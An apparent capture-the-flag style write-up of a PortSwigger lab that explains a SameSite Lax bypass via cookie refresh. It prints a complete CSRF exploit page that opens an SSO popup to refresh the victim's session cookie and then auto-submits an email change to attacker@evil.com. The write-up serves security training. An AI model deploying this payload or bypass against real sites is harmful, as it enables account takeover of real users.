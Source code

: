 # SameSite Lax bypass via cookie refresh | Jan 13, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh), you'll learn: SameSite Lax bypass via cookie refresh! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a [CSRF attack](https://portswigger.net/web-security/csrf) that changes the victim's email address. You should use the provided exploit server to host your attack.

The lab supports OAuth-based login. You can log in via your social media account with the following credentials: `wiener:peter`

> Note:
>   
> The default [SameSite](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions) restrictions differ between browsers. As the victim uses Chrome, we recommend also using Chrome (or Burp's built-in Chromium browser) to test your exploit.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113211243.png)

Burp Suite HTTP history:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113211412.png)

**When we reach to `/`, it'll set a new session cookie for us:**
```
Set-Cookie: session=iGK1ZSaFicxmGf6YQ0vrsOyoBLUGFt1N; Expires=Sat, 14 Jan 2023 13:12:27 UTC; Secure; HttpOnly
```

As you can see, **it doesn't have attribute `SameSite`**, which means **Chrome automatically applies `Lax` restriction by default.**

Although cookies with `Lax` SameSite restrictions aren't normally sent in any cross-site `POST` requests. To avoid breaking single sign-on (SSO) mechanisms, **Chrome doesn't actually enforce these restrictions for the first 120 seconds on top-level `POST` requests**. As a result, there is a two-minute window in which users may be susceptible to cross-site attacks.

Now try to login:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113211918.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113211926.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113211935.png)

As you can see, it's redirecting to sign-in to a social media platform, which commonly is an OAuth-based authenication.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113212035.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113212047.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113212058.png)

**Burp Suite HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113212315.png)

**When we finished the OAuth flow, it'll assign a new session cookie for us**. Again, no `SameSite` attribute. 

My account page:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113212106.png)

In here, we can update our email address.

**View source page:**
```html
<div id=account-content>
    <p>Your username is: wiener</p>
    <p>Your email is: wiener@normal-user.net</p>
    <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
        <label>Email</label>
        <input required type="email" name="email" value="">
        <button class='button' type='submit'> Update email </button>
    </form>
</div>
```

As you can see, **the form doesn't have a CSRF token parameter**, which helps to prevent CSRF attack.

Also, when we submit the form, **it'll send a POST request to `/my-account/change-email`, with parameter `email`.**

**Armed with above information, we can craft a CSRF payload to update victim's email address.**

But first, we need to know one thing:

we can trigger the cookie refresh from a new tab so the browser doesn't leave the page before you're able to deliver the final attack. A minor snag with this approach is that browsers block popup tabs unless they're opened via a manual interaction.

**For example, the following popup will be blocked by the browser by default:**
```js
window.open('https://vulnerable-website.com/login/sso');
```

**To get around this, you can wrap the statement in an `onclick` event handler as follows:**
```js
window.onclick = () => { 
    window.open('https://vulnerable-website.com/login/sso');
}
```

This way, the `window.open()` method is only invoked when the user clicks somewhere on the page.

**Now let's construct our payload:**
```html
<html>
    <head>
        <title>CSRF-10</title>
    </head>
    <body>
        <form action="https://0a7b004a03249384c1cfa827009b0081.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@evil.com">
        </form>
        <p>Click Me!</p>
        <script>
            window.onclick = () => {
                window.open('https://0a7b004a03249384c1cfa827009b0081.web-security-academy.net/socal-login')
                setTimeout(updateEmail, 3000);
            }

            function updateEmail() {
                document.getElementsByTagName('form')[0].submit();
            }
        </script>
    </body>
</html>
```

Then host it on the exploit server and test it:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113214426.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113214440.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113214806.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113214817.png)

When we clicked on somewhere on the exploit page, it'll open another window to `/socal-login`, this will assign a new session cookie, which allows us to have 120 seconds to send a POST request to update the email address.

**Now, let's deliver the payload to victim:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113214959.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-10/images/Pasted%20image%2020230113215004.png)

Nice!

# What we've learned:

1. SameSite Lax bypass via cookie refresh